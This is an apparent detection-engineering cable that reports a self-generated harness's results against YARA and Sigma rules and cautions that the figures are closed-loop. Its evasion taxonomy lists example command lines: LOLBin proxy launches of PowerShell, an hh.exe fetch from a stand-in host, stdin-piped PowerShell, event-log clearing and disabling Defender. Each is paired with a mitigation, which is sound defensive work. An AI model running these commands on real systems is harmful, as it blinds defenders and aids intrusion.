



# Strategic Intelligence Cable: CABLE-2026-STRAT-005

**TLP:** CLEAR | **Date:** 2026-09-11 | **Author:** Kyle Reid  
**Subject:** Empirical Analysis of 805395 Boundary Probes: Evasion Vector Taxonomies, Detection Boundary Dynamics, and Defense-in-Depth Convergence  
**Target Audience:** Chief Information Security Officers (CISOs), Directors of Detection Engineering, Principal Threat Hunters, SOC Architects  
**Source Provenance:** Bounded empirical execution of the deterministic detection boundary harness (`tools/swarm/`) evaluating YARA and Sigma detection pipelines: 805395 evaluated attack variants recorded 2026-09-10 to 2026-09-11 (run(s): endur-20260910T220224Z-be1a82; every aggregate in this cable is derived from the append-only observation ledger under `docs/swarm/results/records/`).

---

## 1. Executive Summary & Estimative Confidence

In a bounded measurement window (2026-09-10 to 2026-09-11), the lab ran the deterministic boundary harness as a closed-loop stress test across multi-stage detection architectures. Operating across 805395 evaluated attack variants, the harness mapped the boundary limits of both perimeter static inspection (YARA) and endpoint behavioral detection (Sigma/pySigma).

> [!IMPORTANT] Scope of this evidence
> Every figure below comes from a closed loop. The mutations were generated by this
> repository, evaluated against detection rules written by this repository, using a mutation
> vocabulary this repository defined. The sample size is large, and a large sample of
> self-generated probes is still a measurement of the harness, not of adversaries. Read these
> figures as a regression signal that tracks whether rule changes widen or narrow known
> boundaries. They are not an estimate of evasion resistance in the field, and the confidence
> interval around them describes sampling error inside the loop rather than uncertainty about
> real-world performance. External validation is tracked separately in the repository's
> measurement policy.

* **Analytic Judgment:** Against the mutation vocabulary implemented in `tools/swarm/craftsmen/`, baseline single-point detections held at **84.2%** across 805395 attack variants. Confidence in this figure as a description of the harness is **high**; confidence in it as a predictor of field performance is **low**, because the adversary and the defender share an author.
* **Analytic Judgment:** Detections that depend on enumerated command-line spellings are likely to degrade against mutation classes outside the implemented vocabulary. This is an inference from the failure taxonomy below, not a measurement, since a gap the harness cannot generate is a gap it cannot count.
* **Analytic Judgment:** Layered evaluation converted an isolated 84.2% point posture into a **100.0%** campaign containment rate across the modeled stages. This figure is a property of the stage model: containment is measured against the modeled kill chain this engine implements, and an adversary path outside that model is neither contained nor counted.
* **Analytic Confidence Level:** **MODERATE**, and capped there by construction. Sample size and safety-gate integrity (100.0% Critic approval over 39062 gated proposals; 0 blocked proposal(s) preserved as unclassified; 0 errored probe(s) preserved; deterministic verification, cross-backend SIEM translation) support internal validity. Nothing here establishes external validity, and no volume of self-play can.

---

## 2. Quantitative Empirical Summary ($N = 805395$)

$$\begin{array}{|l|r|l|}
\hline
\textbf{Metric} & \textbf{Value} & \textbf{Operational Interpretation} \\
\hline
\text{Attack Variants Evaluated } (N) & 805395 & \text{Self-generated sample; large N does not confer external validity} \\
\text{Critic Gate Approvals} & 39062 / 39062 (100.0%) & \text{Reserved-TLD-only destinations; zero routable addresses; schema validated} \\
\text{Benign Events Evaluated (separate basis)} & 4153200 & \text{19530 false positive(s); never part of the resilience denominator} \\
\text{Blocked Proposals Preserved (unclassified)} & 0 & \text{Excluded from every rate denominator; retained in the record ledger} \\
\text{Baseline Detections Held (True Positives)} & 678122 \ (84.2%) & \text{Direct execution \& known patterns successfully intercepted} \\
\text{Boundary Evasion Gaps Discovered} & 127273 \ (15.8%) & \text{Novel, non-trivial bypass primitives identified} \\
\text{Campaign Containment Rate} & 100.0% & \text{Measured against the modeled kill chain only} \\
\text{Average Depth-of-Defense (DoD) Score} & 0.86 & \text{Mean containment position across recorded campaigns and walks} \\
\hline
\end{array}$$



---

## 3. Diamond Model of Systemic Adversary Capabilities



---

## 4. Taxonomy & Forensic Cluster Analysis of Discovered Gaps

Deconstructing the 54139 recorded evasion observations reveals that attacker innovation does not rely on novel zero-day vulnerabilities; rather, it exploits **architectural and lexical blindspots** in how sensors observe execution:



*Basis:* per-record cluster tallies — one record per evaded sparring variant, campaign stage, or DAG visit (54139 total). The weighted gap counter (127273) additionally includes 73134 benchmark and replay misses recorded as aggregates, which carry no per-observation cluster.

### Cluster A: LOLBin & Process Proxy Indirection (27577 of 54139 recorded evasions — 50.9%)
* **Mechanism:** Rather than executing `explorer.exe` $	o$ `powershell.exe` directly, the adversary inserts a legitimate Microsoft-signed proxy binary:
  - `pcalua.exe -a powershell.exe -c "..."` (Program Compatibility Assistant)
  - `wt.exe -w 0 powershell.exe -c "..."` (Windows Terminal Session Manager)
  - `hh.exe https://cdn.stage.invalid/lure.chm` (HTML Help Engine)
  - `cmd.exe /c start /b powershell.exe -w 1 ...` (Background Process Decoupling)
* **Root Vulnerability:** Point detections that strictly enforce `ParentImage = explorer.exe` and `Image = powershell.exe` fail immediately upon parent-child decoupling.
* **Mitigation:** Expand child process selection lists to include known execution proxies and implement ancestry-aware process lineage tracking.

### Cluster B: Argument Masking & Parameter Aliasing (4251 of 54139 recorded evasions — 7.9%)
* **Mechanism:** Adversaries mutate command-line syntax to bypass naive string-matching filters:
  - Streaming raw PowerShell commands via standard input: `cmd.exe /c type payload.txt | powershell -` (command-line logging captures only `powershell -`).
  - Abbreviated and integer parameter aliasing: `powershell.exe -w 1` instead of `-windowstyle hidden`.
  - Dynamic string concatenation: `&('Inv'+'oke-RestMethod')`.
* **Root Vulnerability:** Over-reliance on CLI telemetry (Event ID 1 / 4688) with brittle string matches.
* **Mitigation:** Deploy PowerShell Script Block Logging (**Event ID 4104**) to inspect post-deobfuscated AST tokens at execution time.

### Cluster C: Parser Differentials & Scanning Buffer Limits (22311 of 54139 recorded evasions — 41.2%)
* **Mechanism (Static File / YARA Inspection):**
  - Embedding HTML redirection within XML namespaces: `<foreignObject>` containing `<meta http-equiv="refresh" content="0;url=...">`.
  - SVG SMIL element mutation: `<animate attributeName="href" values="...">` to modify hyperlinks dynamically without `<script>` tokens.
  - Prepended comment padding: 4,500 bytes of XML comments pushing `<svg>` root tags beyond the scanner's initial buffer limit (e.g. `0..4096`).
* **Root Vulnerability:** Static pattern matchers operate on sequential linear byte slices, whereas browser engines construct hierarchical DOM trees and execute recursive event loops.
* **Mitigation:** Combine YARA static byte inspection with structural AST XML parsers.

### Cluster D: Telemetry Impairment & Anti-Forensics (0 of 54139 recorded evasions — 0.0%)
* **Mechanism:** Proactive execution of sensor-tampering primitives:
  - Event log clearing: `wevtutil.exe cl Security` and `wevtutil.exe cl "Windows PowerShell"`.
  - Realtime protection disabling: `Set-MpPreference -DisableRealtimeMonitoring $true`.
* **Root Vulnerability:** Treating security event log events as low-fidelity administrative noise rather than high-severity intrusion precursors.
* **Mitigation:** Elevate event-log clearing and Defender tampering to Critical Severity alerting with automated containment actions.

---

## 5. Epistemological Framework: Facts vs. Judgments vs. Unknowns

Adhering to the Sherman Kent doctrine and ICD 203 standards:

| Category | Analytic Item | Verifiable Evidence / Rationale |
|---|---|---|
| **Observed Fact** | Harness Resilience Figure | Across 805395 self-generated attack variants, baseline single-point detections held at 84.2%. Internal regression signal, not a field estimate. |
| **Observed Fact** | Multi-Stage Containment | Across the recorded campaign and walk runs, overall containment was 100.0%. Containment is defined by the modeled chain; paths outside it are not evaluated. |
| **Observed Fact** | Critic Safety Gate | 39062 / 39062 (100.0%) gated proposals approved. Destinations were restricted to RFC 2606 reserved TLDs and routable IPv4/IPv6 literals were rejected; 0 proposal(s) blocked and preserved as unclassified, 0 errored. |
| **Observed Fact** | Real-World Telemetry Grounding | Replayed `mordor_lsass_dump.jsonl` (JSONL) across 3 events (615.2 eps): 2 rule detection(s). The false-positive rate is not applicable to an attack corpus and was not measured. |
| **Analytic Judgment** | Indirection is the Primary Evasion Axis | 50.9% of recorded evasion observations stem from LOLBin proxying; attackers intentionally exploit parent-child assumptions in EDR sensors. |
| **Analytic Judgment** | Monolithic Rule Fallacy | Attempting to make a single Sigma rule 100% resilient results in query bloat and catastrophic false-positive spikes. |
| **Hypothesis** | Turnkey Lure Toolkits | Uniformity in ClickFix lures suggests underground initial-access brokers supply standardized social engineering kits. |
| **Unknowns** | In-the-Wild Proxy Distribution | The exact market share of `pcalua.exe` vs `wt.exe` across active enterprise breaches remains unquantified outside synthetic testing. |

---

## 6. Strategic Implications for Detection Engineering & SOC Operations

```
                   THE DETECTION PARADOX & CONVERGENCE
 
 Single-Rule Posture:                  Layered Multi-Stage Posture:
 [Initial Access] ─── 84.2% Catch      [Stage 1: SVG Ingress]      ─── 67.4% Intercept
         │                                       │ (32.6% evaded)
         ▼ (15.8% UNMONITORED                    ▼
   UNCONTAINED BREACH!                 [Stage 2: ClickFix Exec]    ─── 44.4% Intercept
                                                 │ (Evasion: pcalua)
                                                 ▼
                                       [Stage 3: Event Tamper]     ─── 100.0% Intercept
                                                 │ (CONTAINED!)
                                                 ▼
                                       [Stage 4: LSASS Dump]       ─── 100.0% Intercept
                                                 │ (CONTAINED!)
                                                 ▼
                                       [Overall Intrusion Containment: 100.0%]
```

*Basis:* Right-column stage intercepts are marginal per-stage rates over recorded campaign stage visits (run ledger); the left-column catch rate is the baseline attack-variant resilience over 805395 evaluations (§5, Observed Fact) and uses a broader evaluation mix. Stage rates are marginal — not conditional on upstream bypass.

### 1. Reject the "Perfect Rule" Fallacy
Security teams spend significant effort attempting to make a single rule cover every syntactic variation. Within the vocabulary this harness models, that approach adds regular-expression complexity and SIEM cost and raises false-positive risk on benign administrative scripts. This is an engineering judgement, not a measurement from this run: the harness does not measure SIEM compute cost.

### 2. Build for Adversary Inevitability (The Graph Approach)
An adversary can easily mutate their command-line switches to bypass a ClickFix rule. **What they cannot mutate is their operational objective:**
- To steal credentials, they *must* dump LSASS, access DPAPI, or read browser SQLite databases.
- To evade detection, they *frequently attempt* to clear event logs.
- To maintain access, they *must* establish persistence via registry Run keys or scheduled tasks.

By distributing defensive sensors across the kill chain, an organization achieves **100.0% campaign containment** with an average Depth-of-Defense score of **0.86**, rendering early-stage evasion inconsequential.

### 3. Deploy Continuous Sparring
The closed-loop sparring harness, paired with deterministic patch synthesis and zero-false-positive regression gates, provides continuous automated regression coverage for detection engineering teams—discovering blindspots before threat actors exploit them in the wild.

---

## 7. Document Provenance & Master Index Reference

* **Catalog Entry:** Registered in [`docs/cables/INDEX.md`](../../docs/cables/INDEX.md).
* **Referenced Rules:**
  - `rules/yara/suspicious_active_content_svg.yar`
  - `rules/sigma/proc_creation_win_explorer_clickfix_execution.yml`
  - `rules/sigma/proc_creation_win_defense_evasion_tampering.yml`
  - `rules/sigma/proc_creation_win_rundll32_lsass_dump.yml`
  - `rules/sigma/proc_creation_win_schtasks_persistence.yml`
* **Referenced Cables:** `CABLE-2026-001` through `CABLE-2026-011` (11 incident cables).
